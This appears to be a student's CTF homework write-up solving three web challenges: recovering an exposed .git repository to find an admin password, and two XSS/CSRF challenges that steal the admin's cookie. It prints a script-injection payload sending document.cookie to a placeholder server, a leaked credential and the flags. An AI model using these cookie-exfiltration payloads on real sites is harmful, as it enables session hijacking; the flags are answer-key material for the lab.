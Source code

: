 # HW0x04

## The Stupid Content Tracker
> FLAG{_man_git_THe_StUPid_CONtEnt_TrAcKEr......}

1. Download tool, [scrabble](https://github.com/denny0223/scrabble), from GitHub.
   ```shell
   git clone https://github.com/denny0223/scrabble.git
   ```
2. Follow `README` to recover `.git` repo.
   ```shell
   ./scrabble https://edu-ctf.csie.org:44302
   ```
3. Check for **commit logs**.
   ```shell
   git log --branches
   ```

   Find interesting commit, `Add password`.
   ```shell
    commit 2577aafa9bf476037cb011d59cf433d8a0c09c96
    Author: bookgin <dongsheoil@gmail.com>
    Date:   Sun Nov 1 22:38:45 2020 +0800

        Add password
   ```
4. Switch branch,`2577aafa9bf476037cb011d59cf433d8a0c09c96`.
    ```shell
    git checkout 2577aafa9bf476037cb011d59cf433d8a0c09c96
    ```
    Find `.htpasswd` under folder, `admin_portal_non_production` and view its content.
    ```shell
    thewebmaster:ols2Xrmdja7XaaMP
    ```
5. Use the given `username:password` to login to `https://edu-ctf.csie.org:44302/admin_portal_non_production/index.php` and get the flag.

## Zero Note Revenge
> FLAG{Oh_I_f0rg0t_To_disAble_The_deBug_PagE}

1. Access note that doesn't exist.

   ```
   https://zero-note.edu-ctf.bookgin.tw:44301/note/{id of the note}
   ```

   (since the note doesn't exist, put random string for the `id`)

   value of **cookie**🍪 is in the response $\implies$ use similar method of `Zero Note`

2. As given in the problem description `HttpOnly` 🍪, rather than using `document.cookie`, use the response of querying note that doesn't exit to get 🍪.

3. Construct the note to get flag.

   ```javascript
   ... //get the response of querying a note that doesn't exist
   fetch({url of the server} + '/?' + btoa({important part in the response}) + '\n'));
   ```

4. `Report to admin` $\implies$ receive a *base64 encode* string, `RkxBR3tPaF9JX2YwcmcwdF9Ub19kaXNBYmxlX1RoZV9kZUJ1Z19QYWdFfQo=`

   ```shell
   ❯ echo RkxBR3tPaF9JX2YwcmcwdF9Ub19kaXNBYmxlX1RoZV9kZUJ1Z19QYWdFfQo= | base64 -d
   FLAG{Oh_I_f0rg0t_To_disAble_The_deBug_PagE}
   ```

## Zero Meme
> FLAG{Will_samesite_cookies_by_default_puts_the_final_nail_in_the_CSRF_coffin?}

1. Use **XSS Attack** to get user's 🍪.

   ```javascript
   https://i.imgflip.com/4kp3ij.jpg"><script>fetch({server url} + '\?' + btoa(document.cookie));</script>
   ```

   Get *base64 encode* 🍪 successfully.

2. Since Admin only click on the link without updating the meme, reconstruct the link to let it send 🍪 to the server.

3. Add Note at **Zero Note** which will work as a middleware to get the admin's 🍪.

   - Construct a `form` to send `POST` request to *Zero Meme* and set its input value what is use to get the user's 🍪 in **1.** Also, encode the **input value** to make it work properly.
   - Use `document.getElementById("f").submit();` for *submission*.

4. Submit `https://zero-note.edu-ctf.bookgin.tw:44301/note/{id of the note}` to the admin $\implies$ receive *base64 encode* string, `c2Vzcz1GTEFHe1dpbGxfc2FtZXNpdGVfY29va2llc19ieV9kZWZhdWx0X3B1dHNfdGhlX2ZpbmFsX25haWxfaW5fdGhlX0NTUkZfY29mZmluP30=`

   ```sh
   ❯ echo c2Vzcz1GTEFHe1dpbGxfc2FtZXNpdGVfY29va2llc19ieV9kZWZhdWx0X3B1dHNfdGhlX2ZpbmFsX25haWxfaW5fdGhlX0NTUkZfY29mZmluP30= | base64 -d
   sess=FLAG{Will_samesite_cookies_by_default_puts_the_final_nail_in_the_CSRF_coffin?}
```
   
   
